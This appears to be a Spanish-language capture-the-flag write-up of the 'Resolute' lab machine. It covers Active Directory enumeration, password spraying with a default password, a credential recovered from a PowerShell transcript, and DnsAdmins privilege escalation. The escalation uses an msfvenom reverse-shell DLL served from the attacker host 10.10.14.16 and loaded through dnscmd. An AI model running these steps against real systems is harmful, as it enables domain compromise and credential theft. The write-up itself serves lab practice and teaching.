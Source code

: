 # 10.10.10.169 - Resolute
--------------------------

Puertos abiertos -> 53(dns),88(kerberos),135(rcp),139,389(ldap),445(smb),464,593(http),636,3269,3268(ldap),5985(winrm),9389.

Primero intentamos sacar el nombre del dominio:
```console
└─$ crackmapexec smb 10.10.10.169
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)

└─$ smbmap -H 10.10.10.169 -u "cucuxii"
# No nos dejan acceder sin creds
```

## Puerto 53:
```console
└─$ dig @10.10.10.169 megabank.local ns
# megabank.local resolute.megabank.local
└─$ dig @10.10.10.169 megabank.local mx 
# hostmaster.megabank.local
```

```console
└─$ rpcclient -U "" -N 10.10.10.169 -c 'enumdomusers' | grep -oP "\[.*?\]" | grep -v "0x" | tr -d "[]" >> users
└─$ rpcclient -U "" -N 10.10.10.169 -c 'enumdomusers' -c 'enumdomgroups' # Domain Admins (0x200)
└─$ rpcclient -U "" -N 10.10.10.169 -c 'querygroupmem 0x200' # -> rid 0x1f4
└─$ rpcclient -U "" -N 10.10.10.169 -c 'queryuser 0x1f4' # -> Administrator
└─$ rpcclient -U "" -N 10.10.10.169 -c 'querydispinfo' 
# Account: marko	Name: Marko Novak # Cuenta creada. Contraseña Welcome123!

└─$ smbmap -H 10.10.10.169 -u marko -p 'Welcome123!' # Error de autenticación
└─$ crackmapexec smb 10.10.10.169 -u users.txt -p 'Welcome123!' 
SMB         10.10.10.169    445    RESOLUTE         [+] megabank.local\melanie:Welcome123!
└─$ smbmap -H 10.10.10.169 -u 'melanie' -p 'Welcome123!'
# Tiene acceso a NETLOGON, SYSVOL e $IPC pero dentro no encuentro nada interesante

└─$ crackmapexec winrm 10.10.10.169 -u 'melanie' -p 'Welcome123!'
WINRM       10.10.10.169    5985   RESOLUTE         [+] megabank.local\melanie:Welcome123! (Pwn3d!)
```
```console
└─$ evil-winrm -i 10.10.10.169 -u 'melanie' -p 'Welcome123!'
```
Subo mi script pero no encuentra nada interesante. Mi usaurio tampoco tiene nada interesante. 
En C:Users existe la carpeta home de otro usaurio, "ryan", no me deja acceder.

```console
*Evil-WinRM* PS C:\Users\ryan> net user ryan
Global Group memberships     *Domain Users         *Contractors
```
Pero no parece que este grupo sirva para mucho
Encontramos en C una carpeta inusual "PSTranscripts" con dentro:
```console
*Evil-WinRM* PS C:\PSTranscripts\20191203> type PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
```
Dentro del script encontramos la frase "cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!"

```console
└─$ evil-winrm -i 10.10.10.169 -u 'ryan' -p 'Serv3r4Admin4cc123!'
```
En el escritorio tiene una nota
```
*Evil-WinRM* PS C:\Users\ryan\Desktop> type note.txt
Email para el equipo:

- Como se congela el sistema cuando se aplican cambiosm todos esos cambios se revertiran en un minuto (salvo los
que haga el administrador)

*Evil-WinRM* PS C:\Users\ryan\Documents> whoami /groups /fo list | findstr "Name"
MEGABANK\DnsAdmins
```
Este grupo es vulnerable. La manera de explotarlo se dice [aquí](https://lolbas-project.github.io/#)
Basicmanete si cargas una dll maliciosa, al resetear el servicio dns se aplica.

```console
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.16 LPORT=666 -f dll -o wtf.dll
└─$ impacket-smbserver carpeta $(pwd) -smb2support

*Evil-WinRM* PS C:\Users\ryan\Documents> dnscmd.exe /config /serverlevelplugindll \\10.10.14.16\carpeta\wtf.dll
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe stop dns
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe start dns

└─$ rlwrap nc -lnvp 666
C:\Windows\system32> whoami
nt authority\system
```


DNS admins -> cargar una dll maliciosa para que al resetear el servicio se aplique.
lolbas github -> dnscmd.exe /config /serverlevelplugindll \\10.10.14.16\varpeta\wtf.dll

sc.exe stop dns -> sc.exe start dns

